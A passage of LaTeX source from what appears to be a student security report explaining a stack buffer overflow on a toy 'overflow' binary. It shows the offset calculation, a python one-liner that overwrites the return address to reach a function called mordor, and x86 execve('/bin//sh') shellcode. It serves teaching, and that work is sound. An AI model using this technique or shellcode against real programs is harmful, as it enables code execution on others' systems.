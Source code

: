 \documentclass[article]{uibk}
\begin{document}
As shown in \cref{src:buffer_overflow} we have a buffer suited for
\SI{20}{\byte} but without any bound checking. If the provided input is longer,
we will be able to overwrite the return address. Lets have a look at the
resulting binary utilizing \texttt{objdump}.

Looking at lines XX, XX and XX we can infer that the buffer will start
\SI{28}{\byte} (\texttt{0x1c}) before the base pointer. Hence we have to supply
\SI{32}{\byte} (28 + 4) of arbitrary data followed by the address where we want
to jump to. Lets jump into the function \texttt{mordor} located at
\texttt{0x804849b}, keep in mind that the byte order needs to be swapped.

\begin{code*}{linenos=false}
> python -c "print 'A'*32 + '\x9b'" | ./overflow
Enter text:
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
One does not simply jump into mordor()!
Segmentation fault (core dumped)
\end{code*}

And the function \texttt{mordor} has been executed, despite the segmentation
fault one can see that return address has been overwritten successfully.

\section{Shell Code}

While this is neat and can certainly be useful to an adversary, stack smashing
also enables us to inject arbitrary code into a program. Contrary to the
previous section the target machine will execute code provided by the attacker.
This can be achieved by bending the return address into the buffer used for the
exploit. Provided instructions will be executed upon return. Shell code is a
piece of (binary) code which opens up a shell that reads and executes commands
from an attacker. Lets start this section by crafting some shell code.

\begin{nasmcode}
    xor     eax, eax    ;Clearing eax register
    push    eax         ;Pushing NULL bytes
    push    0x68732f2f  ;Pushing //sh
    push    0x6e69622f  ;Pushing /bin
    mov     ebx, esp    ;ebx now has address of /bin//sh
    push    eax         ;Pushing NULL byte
    mov     edx, esp    ;edx now has address of NULL byte
    push    ebx         ;Pushing address of /bin//sh
    mov     ecx, esp    ;ecx now has address of address
                        ;of /bin//sh byte
    mov     al, 11      ;syscall number of execve is 11
    int     0x80        ;Make the system call
\end{nasmcode}
\end{document}
